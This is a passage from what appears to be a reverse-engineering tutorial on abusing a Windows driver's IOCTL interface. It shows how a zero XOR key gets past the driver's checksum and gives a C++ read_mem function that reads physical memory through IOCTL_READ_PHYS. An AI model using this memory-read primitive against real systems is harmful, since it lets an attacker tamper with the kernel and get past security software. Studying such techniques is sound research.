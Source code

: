 ```c
        nullptr);

    if (!result)
    {
        std::cerr << "IOCTL error: " << std::hex << GetLastError() << std::endl;
        CloseHandle(hDevice);
        return false;
    }

    return true;
}
```

> If we send the XOR key made of zeros, we can skip the checksum calculation since the last two bytes will still equal zero.

### Creating a Function for Reading Memory

Now that we’ve figured out all the checks and encryption, we can move on to the memory reading function. There won't be anything particularly complex here; here's an example of such a function:

```c
ULONG64 read_mem(ULONG address)
{
    uint8_t input[0x18];
    uint8_t output[0x610];

    memset(input, 0, sizeof(input));
    memset(output, 0, sizeof(output));

    *reinterpret_cast<ULONG*>(input) = address;
    *reinterpret_cast<ULONG*>(input + 4) = sizeof(ULONG64);

    checksum_buffer(input, sizeof(input));
    xor_buffer(input, sizeof(input));

    DWORD bytesReturned = 0;
    DeviceIoControl(
        hDevice,
        IOCTL_READ_PHYS,
        &input,
        sizeof(input),
        &output,
        sizeof(output),
        &bytesReturned,
        nullptr);

    xor_buffer(output, sizeof(output));

    return *reinterpret_cast<ULONG64*>(output);
}
```
